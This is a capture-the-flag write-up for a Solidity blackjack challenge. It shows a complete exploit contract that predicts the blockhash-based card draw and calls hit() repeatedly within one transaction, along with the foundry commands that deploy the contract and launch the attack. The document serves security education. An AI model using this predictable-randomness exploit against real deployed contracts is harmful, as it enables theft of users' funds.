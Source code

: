 ## BabyBlackJack

Randomness in `hit` is manipulable which lead to an absolute win.

We can deploy a contract which calculate the card who will be hit by the dealer, and if the card is a factor of 21 or 22, hit the same card multiple time.
It is possible because one block contains one transaction which can contain multiple call (with all the same block number though).

Here is the exploit :

```solidity
contract Exploit {

   function attack(address _victim) public {
        Chal victim = Chal(_victim);

        uint8 nbCardsToHit;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint cardValue = (blockValue % 5) + 1;

        if (cardValue == 1) {
            nbCardsToHit = 21;
        } else if (cardValue == 2) {
            nbCardsToHit = 11;
        } else if (cardValue == 3) {
            nbCardsToHit = 7;
        } else {
            revert();
        }

        victim.start_game();

        for (uint i; i < nbCardsToHit; i++) {
            victim.hit();
        }
    }
}
```

Firstly, we get the contract address :

```bash
cast call $SETUP_CONTRACT "target()" --rpc-url $RPC_URL --private-key $LOCAL_PRIVATE_KEY
```

Deploy the exploit (with foundry) :

```bash
forge create --rpc-url $RPC_URL --private-key $LOCAL_PRIVATE_KEY src/Exploit.sol:Exploit --constructor-args $CONTRACT
```

And launch the attack :

```bash
cast send $EXPLOIT_CONTRACT "attack(address)" $CONTRACT --rpc-url $RPC_URL --private-key $LOCAL_PRIVATE_KEY --gas-limit 7000000
```

The challenge is solved and we can get the flag.
